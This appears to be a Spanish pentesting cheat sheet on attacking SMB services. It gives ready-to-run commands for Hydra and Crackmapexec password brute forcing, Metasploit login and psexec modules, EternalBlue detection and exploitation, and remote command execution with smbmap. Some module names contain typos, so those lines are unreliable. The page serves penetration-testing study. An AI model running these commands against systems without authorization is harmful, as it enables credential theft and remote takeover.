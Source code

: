 # SMB

## Fuerza Bruta

### Hydra

Para poder hacer fuerza bruta con hydra al servicio SMB, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente:

```bash
hydra -l user -P passwords.txt smb://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio SMB no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```
hydra -l user -P passwords.txt SMB://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```bash
hydra -L users.txt -p Password123 smb://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minúscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasándole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```bash
hydra -L users.txt -P passwords.txt smb://127.0.0.1 -t 15
```

### Crackmapexec

Podemos usar esta herramienta para probar una serie de contraseñas en base a un usuario o viceversa sustituyendo la contraseña por la ruta de un diccionario. Por ejemplo:

```ruby
crackmapexec smb 192.168.1.10 -u usuario -p diccionario.txt
```

{% hint style="warning" %}
**ATENCIÓN!!** Puede que los resultados no sean reales y nos den falsos negativos, por lo que se recomienda revisar los resultados con smbmap (`smbmap -H 192.168.1.10 -u usuario -p contraseña1`)
{% endhint %}

### Metasploit

#### Fuerza Bruta

Podemos usar metasploit para hacer fuerza bruta para SMB, el modulo es "`auxiliary/scanner/smb/smb_login`"

* SMBUSser -> En el caso de que usemos un usuario concreto
* USER\_FILE -> En el caso de que usemos un diccionario de usuarios
* PASS\_FILE -> En el caso de que usemos un diccionario de contraseñas
* SMBPass -> En el caso de que usemos una contraseña concreta
* RHOSTS -> IP de la máquina victima
* VERBOSE -> Desactivar

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

#### PSexec

Existe otro módulo llamado psexec (`exploit/windows/smb/psexec`) cuyo objetivo es adquirir administración remota de la maquina

* RHOSTS -> IP de la máquina victima
* SMBUSser -> En el caso de que usemos un usuario concreto
* SMBPass -> En el caso de que usemos una contraseña concreta

## EthernalBlue (MS17-010)

{% hint style="info" %}
EternalBlue es una vulnerabilidad en el protocolo Server Message Block (SMB) de Microsoft, identificada como MS17-010. Esta vulnerabilidad permite a un atacante ejecutar código remoto en sistemas Windows sin necesidad de autenticación.

Los siguientes S.O. fueron afectados:

* **Windows Vista**
* **Windows 7**
* **Windows 8**
* **Windows 8.1**
* **Windows 10**
* **Windows Server 2008**
* **Windows Server 2008 R2**
* **Windows Server 2012**
* **Windows Server 2012 R2**
* **Windows Server 2016**
{% endhint %}

### Detección

#### Nmap

Para comprobar si el host es vulnerable, usaremos el siguiente script de nmap:

```bash
nmap -sV -p 445 --script=smb-vuln-ms17-010 192.168.1.1
```

#### Metasploit

También podemos optar por el modulo de metasploit:

```bash
/auxliary/scanner/smb/smb_ms10_010
```

### Explotación

#### GitHub Tool

Para explotar la vulnerabilidad, usaremos la siguiente herramienta:

{% @github-files/github-code-block url="https://github.com/3ndG4me/AutoBlue-MS17-010" %}

#### Metasploit

O el siguiente modulo de metasploit:

```bash
/exploit/windows/smb/ms17_010_ethernalblue
```

## RCE

Podemos ejecutar comandos con un usuario y contraseña de SMB usando [SmbMap](../../reconocimiento/protocolos-servicios/smb.md#smbmap) y el siguiente comando:

```bash
smbmap -u usuario -p password -H 192.168.1.1 -x 'comando'
```
